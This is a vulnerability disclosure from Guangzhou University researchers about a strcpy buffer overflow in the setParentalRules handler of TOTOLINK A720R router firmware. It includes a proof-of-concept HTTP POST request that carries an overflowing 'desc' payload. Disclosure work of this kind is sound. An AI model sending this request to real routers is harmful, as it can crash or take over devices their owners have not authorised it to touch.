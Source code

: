 ## Submitter：林淦(Lingan) 罗熙(Luoxi)

## Submitter unit：广州大学 (Guangzhou University)

## Information



**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** A720R

**Affected firmware version:** V4.1.5cu.630_B20250509

**Firmware download address:** [TOTOLINK](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html)

## Overview

A critical buffer overflow vulnerability was found on the TOTOLINK A720R router due to strcpy(dest, src); The failure to perform the necessary boundary checks results in a buffer overflow vulnerability that allows an attacker to perform a denial-of-service attack or even arbitrary command execution by sending malicious HTTP POST packets

## Vulnerability details

When the request path is setParentalRules, the corresponding function sub_41AAD8

![](img/1.png)

It can be found that there is a buffer overflow vulnerability here, but the precondition needs to be met and n2 is equal to 1, that is, the value of addEffect is 1

![](img/2.png)

## POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:141.0) Gecko/20100101 Firefox/141.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.1/
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Fri, 30 Jun 2023 08:05:46 GMT
If-None-Match: "106164761"
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 378

{"topicurl":"setParentalRules",
"token":"2e2e7715039a8b744b974ba53c27537d"
"addEffect":"1",
"mac":"1234",
"desc":"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac"
}
```

![](img/3.png)

![](img/4.png)